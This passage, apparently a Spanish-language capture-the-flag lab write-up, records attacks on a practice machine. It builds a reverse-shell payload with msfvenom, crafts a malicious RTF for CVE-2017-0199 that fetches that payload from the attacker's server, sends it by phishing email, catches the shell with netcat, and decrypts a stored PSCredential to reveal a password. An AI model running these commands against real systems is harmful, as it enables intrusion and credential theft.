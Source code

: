 ## smpt
Ahora vamos a intentar enviar un archivo RTF. Buscamos en google por "RTF malicius file remote command execution". Encontramos un repositiorio con un script en python para crear el archivo RTF malicioso. Tenemos que tener un archivo .hta; Con `msfvenom -l formats` podemos listar a ver si podemos crear un archivo .htb y vemos un tipo de archivo con nombre similar, creamos un payload de `windows/shell_reverse_tcp` en formato **.htb** para hostearlo con python y crear una reverse shell con netcat.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.10 LPORT=443 -f hta-psh -o rev.hta
python cve-2017-0199_toolkit.py -M gen -w salario.rtf -u http://10.10.14.10/rev.hta -t RTF -x 0 

sendemail -f creep33@megabank.com -t nico@megabank.com -u "IMPORTANTE" -m "Este es el informe de tu salario del ultimo trimestre." -s 10.10.10.77 -a salario.rtf -v

python3 -m http.server 80
rlwrap nc -nlvp 443
```

> user.txt

# User Pivoting

## OS 
```powershell
cd Desktop
dir
```

> cred.xml -> Archivo para almacenar un PSCredential, para almacenar credenciales, aunque podemos tratar de extraer la contraseña de la sesión.


Buscamos en google "powershell Import-Clixml"
```powershell
powershell -c "$cred = Import-Clixml -Path cred.xml; $cred.GetNetworkCredential() | Format-List *" 
```

> User: Tom
> Pass: 1ts-mag1c!!!

## ssh
Nos conectamos por ssh con la credenciales obtenidas.

# User Pivoting (2)
## OS
```powershell
cd Desktop
dir
cd "AD Audit"
type note.txt
cd Bloodhound
cd Ingestors
dir
```
